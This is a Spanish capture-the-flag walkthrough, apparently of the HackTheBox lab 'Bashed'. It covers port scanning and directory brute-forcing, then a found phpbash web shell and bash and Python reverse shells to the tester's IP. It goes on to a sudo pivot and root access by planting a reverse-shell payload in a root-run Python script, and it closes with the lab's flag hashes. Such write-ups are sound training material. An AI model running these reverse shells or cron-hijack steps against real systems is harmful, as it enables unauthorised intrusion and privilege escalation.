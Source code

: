 ![[Pasted image 20250705153021.png]](bashed-images/20250705153021.png)

# Nmap

>iniciamos con un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.197.9 -oN scanner
```

![[20250705135441.png]]

>Continuamos con un escáner con scripts básicos para sacar servicios y versiones

```bash
nmap -p80 -sCV 10.129.197.9 -oN targeted
```

![[20250705135536.png]]

# Puerto 80

>revisamos que hay en la pagina web que corre por el puerto 80

![[20250705135627.png]]

>revisamos la web pero a primera vista no hay gran cosa 

![[20250705135759.png]]

lo que si que vemos en la pagina web es que hay algun tipo de consola interactiva en la URL IP/uploads/phpbash.php

![[ 20250705135903.png]]

>pero al acceder no funciona la pagina por lo que podemos entender que si aun existe ya no esta en el directorio uploads

![[ 20250705135956.png]]

>Nos indican un repositorio github donde parece que explican el funcionamiento de esta herramienta y tenemos un usuario a la vista "Arrexel"


![[ 20250705140110.png]]

vemos que tiene dos programas que hacen lo mismo phpbash.php y phpbash.min.php que se encuentran en el  navegador


## Gobuster

>Utilizamos gobuster para buscar directorios en la pagina web

```bash
gobuster dir -u 10.129.197.9 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,py,sh -t 40
```

![[ 20250705140304.png]]

>Nos devuelve varios directorios y tras explorarlos un poco encontramos en dev lo siguiente:

![[ 20250705140342.png]]

>Hemos encontrado la consola interactiva

## phpbash.php

![[ 20250705140421.png]]

tratamos de mandar un ping a ver si la consola es capaz de interactuar con mi equipo

>Desde nuestra terminal nos ponemos en escucha de paquetes


```bash
tcpdump -i any icmp
```

![[20250705140711.png]]

y desde phpbash.php lanzamos el ping

```bash
ping -c 1 10.10.14.155
```

![[20250705140758.png]]

vemos que el paquete se tramita

![[20250705140816.png]]

y en  nuestra terminal recibimos la petición

por lo que es momento de tratar de enviar una shell


## Shell

>probamos a lanzar una shell con bash 

```bash
bash -c "bash -i &> /dev/tcp/192.168.1.175/1234 0>&1" 
```

mientras en nuestra terminal la esperamos con 

```bash
nc -nlvp 1234
```



![[20250705141401.png]]

>La shell parece mandarse pero no recibimos nada por el puerto en escucha


revisamos si tiene python instalado 

```bash
which python
```

![[20250705141439.png]]

>comprobamos que si lo tiene

probamos lanzar una shell con python hacia nuestro puerto en escucha

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.155",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

![[20250705145256.png]]

>ahora si que tenemos la shell en nuestra terminal 

### Sanitizar la shell

> como sabemos que tiene python vamos a utilizarlo para sanitizar la shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl + Z

```bash
stty raw -echo; fg
```

```bash
export TERM=xterm
```

```bash
stty rows 36 columns 140
```

>ahora si con una shell mas practica ya podemos trabajar

## Escalada de privilegios

>Utilizamos sudo -l y asi hacemos el primer reconocimiento

```bash
sudo -l
```

![[20250705145632.png]]

vemos que podemos usar el usuario scriptmanager sin contraseña

así que vamos a ver que podemos hacer con este usuario

>pivotamos al usuario scriptmanager

```bash
sudo -u scriptmanager /bin/bash -i
```

>Al explorar el directorio home encontramos el usuario arrexel el cual contiene la primera flag 

![[20250705145939.png]]

>seguimos explorando y vemos un archivo en la / raiz llamado scripts del cual somos propietarios con el usuario actual

![[20250705150044.png]]

![[20250705150103.png]]

>investigamos el archivo test.py

![[20250705150140.png]]


>vemos que genera un archivo .txt que como vimos en el directorio scripts el propietario es root por lo que suponemos que root es quien crea ese archivo

>Creamos un pequeño script de python para tratar de inyectar una shell que al ser creada por root esperemos que nos de esa shell con usuario root

![[20250705150402.png]]

```python
import socket, subprocess, os;

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);
s.connect(("10.10.14.155",6666));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

>Nos ponemos en escucha para ver si recibimos la shell


```bash
nc -nlvp 6666
```

>lanzamos el script de python

```bash
python test.py
```

![[20250705151139.png]]

>Y ahi tenemos la shell como root

>vamos al directorio principal de root y ahi podemos ver la flag

![[20250705151252.png]]

# Flags

user.txt = 59f508119c6a8ff7a2f51be2dffccea1

root.txt = 7879c3fb5f18ec2c8e923829e742e83e
